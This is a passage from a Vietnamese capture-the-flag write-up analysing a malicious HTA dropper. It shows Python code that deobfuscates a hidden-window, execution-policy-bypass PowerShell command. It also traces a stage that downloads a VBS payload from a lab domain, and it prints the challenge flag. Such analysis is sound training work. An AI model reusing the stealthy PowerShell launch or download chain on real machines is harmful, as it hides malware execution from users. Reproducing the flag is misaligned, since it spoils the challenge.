arran += "id2FudGVkCggod2FudGVkCg)"
arran += ")d2FudGVkCg;pd2FudGVkCgo"
arran += "wd2FudGVkCgerd2FudGVkCgs"
arran += "hd2FudGVkCgeld2FudGVkCgl"
arran += ".d2FudGVkCgexd2FudGVkCge"
arran += " d2FudGVkCg-wd2FudGVkCgi"
arran += "nd2FudGVkCgdod2FudGVkCgw"
arran += "sd2FudGVkCgtyd2FudGVkCgl"
arran += "ed2FudGVkCg hd2FudGVkCgi"
arran += "dd2FudGVkCgded2FudGVkCgn"
arran += " d2FudGVkCg-ed2FudGVkCgx"
arran += "ed2FudGVkCgcud2FudGVkCgt"
arran += "id2FudGVkCgond2FudGVkCgp"
arran += "od2FudGVkCglid2FudGVkCgc"
arran += "yd2FudGVkCg bd2FudGVkCgy"
arran += "pd2FudGVkCgasd2FudGVkCgs"
arran += " d2FudGVkCg-Nd2FudGVkCgo"
arran += "Pd2FudGVkCgrod2FudGVkCgf"
arran += "id2FudGVkCgled2FudGVkCg "
arran += "-d2FudGVkCgcod2FudGVkCgm"
arran += "md2FudGVkCgand2FudGVkCgd"
arran += " d2FudGVkCg$Od2FudGVkCgW"
arran += "jd2FudGVkCguxd2FudGVkCgD"

arran = descortinar(arran, parrana, "")

sandareso = "pd2FudGVkCgo"
sandareso += "wd2FudGVkCgr"
sandareso += "sd2FudGVkCge"
sandareso += "ld2FudGVkCgl -cd2FudGVkCgommad2FudGVkCgnd "
sandareso = descortinar(sandareso, parrana, "")

final_command = sandareso + arran
print(latifoliado)
print(descortinar(latifoliado, parrana, ""))
print(descortinar(sandareso, parrana, ""))
print(arran)
print(final_command)
```

---

## 7. Kết quả sau khi deobfuscate

Ra được các strings này và decode hết ra thì thấy được path lạ.



Ra được path:



---

## 8. Tìm ra flag

Cuối cùng gọi endpoint đó trên instance:

```bash
curl --resolve wanted.alive.htb:<PORT>:<IP> http://wanted.alive.htb:31653/cdba/_rp
```

ra được flag là:

```text
HTB{c4tch3d_th3_m4lw4r3_w1th_th3_l4ss0_l1k3_1t_w4s_n0th1nG}
```


---

## 9. Flow

```text
wanted.hta
   |
   v
mở file và nhận ra có lớp obfuscate URL encode
   |
   v
decode URL nhiều lần
   |
   v
thu được HTML/JavaScript lồng nhau
   |
   v
tập trung vào khối <sCrIPT lANgUAge="VbScRipT">
   |
   v
decode Base64 bên trong
   |
   v
thu được PowerShell stage 1
   |
   v
PowerShell tải wanted.tIF từ wanted.alive.htb
và lưu thành %APPDATA%\wanted.vbs
   |
   v
ánh xạ domain wanted.alive.htb về instance
   |
   v
tải wanted.tIF về để đọc stage 2
   |
   v
phân tích wanted_stage2.vbs
   |
   v
nhận ra lớp obfuscation với marker d2FudGVkCg
và hàm descortinar dùng để xóa marker rác
   |
   v
viết script Python mô phỏng quá trình deobfuscate
   |
   v
khôi phục được các chuỗi sạch và endpoint thật
   |
   v
gọi endpoint: http://wanted.alive.htb:31653/cdba/_rp
   |
   v
thu được flag
```
---